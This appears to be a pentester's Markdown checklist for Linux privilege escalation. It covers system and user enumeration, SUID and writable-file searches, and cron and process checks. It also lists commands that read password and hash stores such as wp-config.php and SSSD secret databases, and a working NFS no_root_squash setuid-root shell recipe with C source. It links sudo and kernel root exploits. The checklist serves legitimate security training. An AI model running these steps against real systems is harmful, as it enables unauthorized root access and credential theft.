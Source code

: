 # 📋 Linux Privesc Checklist

* [ ] To check information about system: `cat /etc/issue; cat /etc/*-release; uname -r; arch`
* [ ] To get cpu info: `lscpu`
* [ ] To check valid login shells : `cat /etc/shells`
* [ ] View all users: `cat /etc/passwd` Only usernames: `cat /etc/passwd | cut -f1 -d:`
* [ ] Check for shellshock : `grep "*sh$" /etc/passwd`
* [ ] Last login: `lastlog`
* [ ] Check sudo version is `1.8.31` use [this exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)

## [Kernel Exploits](https://github.com/lucyoa/kernel-exploits)

### Grep TIps

*   [ ] If wanna search recursively in a directory:&#x20;

    `grep -Horn <text> <dir>`&#x20;

    To print full line: exclude `-o`

### Privileges,Users, etc

* [ ] Check for groups `cat /etc/group`
* [ ] To list interesting groups: `getent group sudo`
* [ ] If user in _adm_ group check: `/var/logs`
* [ ] Check id with `ls -ln` and if uid is different and nfs share is present do the [nfs-privesc.md](nfs-privesc.md "mention")
* [ ] Check for [capabilities.md](capabilities.md "mention") with

```
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

* [ ] Check [logrotate.md](logrotate.md "mention")

### Network

* [ ] Netstat:
  * [ ] All: `netstat -antup`
  * [ ] Listening connections:\
    `netstat -plunt`
* [ ] Check DNS: `/etc/hosts`
* [ ] `ifconfig` or `ip a` if it is dual homed, etc.
* [ ] `/etc/resolv.conf` if the host is configured to use internal DNS it can be starting point to query Active Directory.
* [ ] To see which other hosts the target has been communicating with we can use `arp -a`

### Docker

* [ ] When creating a Docker container if -h or -hostname is not specified then hostname is container name.
  * Example hostname of docker container: `efaa6f5097ed`
* [ ] `.dockerenv` in root directory
* [ ] To evaluate use [CDK](https://github.com/cdk-team/CDK) Refer: Forgotten-vulnlab
* [ ] If sudo access on docker exec`sudo docker exec --privileged --user 0 -it container_name /bin/sh`

### WSL

* [ ] To mount c drive in WSL

```
mount -t drvfs 'c:' /mnt/c
```

### Disks & Other Peripheral

* [ ] Check for unmounted drives with `lsblk` or `fdisk -l`
* [ ] `lsblk` to enumerate information about block devices (hard disks, USB drives, optical drives).
* [ ] `lpstat` to check for printers

#### NFS

* [ ] Check for NFS with `showmount -e <ip>`
* [ ] Then `cat /etc/exports`. If (rw,no\_root\_squash) then we can create setuid binary on bash:

shell.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
	setuid(0);setgid(0);system("/bin/bash")
}		
```

* [ ] Compile and copy to nfs:

```bash
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

* [ ] Run it after switching to low privileged session: `./shell`

### Files & File searching

* [ ] To find .conf files:

```bash
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```

* [ ] To find setuid(SUID) binaries:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

* [ ] To get all hidden files:

```bash
find / -type d -name ".*" -ls 2>/dev/null
```

* [ ] To find scripts:

```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

* [ ] To check for writable directories:

```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

or writable files:

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

* [ ] If wordpress then it is quite common to have passwords in the config file:

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

### Processes & Installed Packages

* [ ] Check running processes:
  * [ ] `ps aux` --> only root `ps aux | grep root`
  * [ ] `watch -n 1 "ps -aux | grep pass"` - to get entries with password
  * [ ] `ps fauxww`
  * [ ] `ps -ewwo pid,user,cmd --forest`
  * [ ] If doas is present then check config file which can be found with

```bash
find / -name doas.conf 2>/dev/null
```

* [ ] `dpkg -l` to list packages
* [ ] If no sudo access: [pspy](https://github.com/DominicBreuker/pspy): `./pspy64 -pf -i 1000`
* [ ] To add current path to $PATH:

```bash
PATH=.:${PATH}
```

* [ ] To check cron jobs try ALL THESE:
  * [ ] `crontab -l`(Run with sudo too)
  * [ ] `ls -lah /etc/cron*`
  * [ ] `grep "CRON" /var/log/syslog` - To check cron logs
* [ ] To check binaries: `ls -l /bin /usr/bin/ /usr/sbin/`
* [ ] To check installed packages:

```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
```

* [ ] To check gtfo bins against installed packages (run the previous command before this):

```bash
for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done
```

* [ ] _Strace_ can be used to trace the system calls and signal processing of any command

## Active Directory

* [ ] Check `/etc/krb5.conf`
* [ ] If root user then use **KeyTabExtract**
* [ ] Check for hashes:

```
strings  /var/lib/sss/secrets/secrets.ldb | grep '\$'
```

* [ ] In `/var/lib/sss/db`:

```
strings cache_cerberus.local.ldb | grep '\$'
```

Check for cache

